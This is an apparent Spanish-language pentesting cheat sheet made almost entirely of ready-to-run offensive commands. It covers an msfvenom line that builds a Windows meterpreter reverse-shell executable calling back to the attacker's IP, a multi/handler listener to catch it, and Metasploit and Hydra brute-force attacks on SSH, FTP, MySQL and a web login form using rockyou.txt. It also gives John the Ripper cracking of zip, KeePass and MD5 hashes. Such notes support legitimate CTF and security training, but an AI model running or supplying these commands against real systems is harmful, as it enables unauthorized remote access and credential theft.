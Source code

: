 ## Comandos básicos de metasploit:

``` bash
msfdb init
search (servicio / CVE)
options
run / exploit
shell
```

### msfvenom

``` bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=NuestraIP LPORT=443 -f exe -o pwned.exe
compartir por servidor python
```

### multi handler:

``` bash
use /multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST
set LPORT
```

### fuerza bruta

``` bash
search fp_login
set PASS_FILE /usr/share/wordlist/rockyou.txt
set USERNAME user
set RHOSTS IP

search ssh_login
set USERNAME user
set PASS_FILE /usr/share/wordlist/rockyou.txt
set RHOSTS IP
```

## Hydra

``` bash
hydra -l user -P /usr/share/wordlist/rockyou.txt ssh://IP
hydra -l user -P /usr/share/wordlist/rockyou.txt ftp://IP

hydra -L /usr/share/wordlist/metasploit/unix_users.txt -p psswd ssh://IP

hydra -t 64 -l admin -P /usr/share/wordlist/rockyou.txt IP http-post-form “/my_weblog/admin.php:username=admin&password=^PASS^:Incorrect”
```

## Bases de datos

``` bash
hydra -l capybara -P /usr/share/wordlist/rockyou.txt mysql://IP

mysql -u capybara -ppassword1 -h IP
```

## John The Ripper

``` bash
# en caso de tener un zip
zip2john archivos.zip > hash
john --wordlist=/usr/share/wordlist/rockyou.txt hash

# en caso de un keepass
keepass2john Database.kdbx > hash
john --wordlist=/usr/share/wordlist/rockyou.txt hash

# en caso de un hash | # hash identifier
john --format=Raw-MD5 --wordlist=/usr/share/wordlist/rockyou.txt hash
```
